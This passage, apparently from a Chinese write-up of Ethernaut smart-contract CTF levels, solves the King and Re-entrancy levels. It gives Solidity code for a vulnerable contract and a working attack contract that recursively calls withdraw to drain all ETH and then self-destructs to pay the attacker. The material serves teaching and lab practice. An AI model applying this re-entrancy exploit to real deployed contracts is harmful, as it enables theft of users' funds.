 调用构造函数时，value=1.1 ether即可。

`FallbackThrowException`作为king时，transfer会调用`FallbackThrowException.fallback`，自然就throw失败了。

验证通过后可以调用dtor回收零头

# level10 Re-entrancy

由于`balances[msg.sender] -= _amount;`在发送ETH（`msg.sender.call.value(_amount)()`）的之后，我们可以用合约作为msg.sender，这样我们的合约的fallback函数就会在`msg.sender.call`被调用（在`-= _amount`之前），于是我们可以无限递归调用withdraw()函数来获得合约内所有的ETH。

```solidity
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}

contract MyContract {
    Reentrance c;
    address owner;
    
    function MyContract(address _c) public payable {
        c = Reentrance(_c);
        owner = msg.sender;
        c.donate.value(msg.value)(this);
    }
    
    function() public payable {
        uint weHave = c.balanceOf(this);
        if (weHave > c.balance) {
            if (c.balance != 0) c.withdraw(c.balance);
            return;
        }
        c.withdraw(weHave);
    }
    
    function exploit() public {
        c.withdraw(0);
    }
    
    function dtor() {
        selfdestruct(owner);
    }
```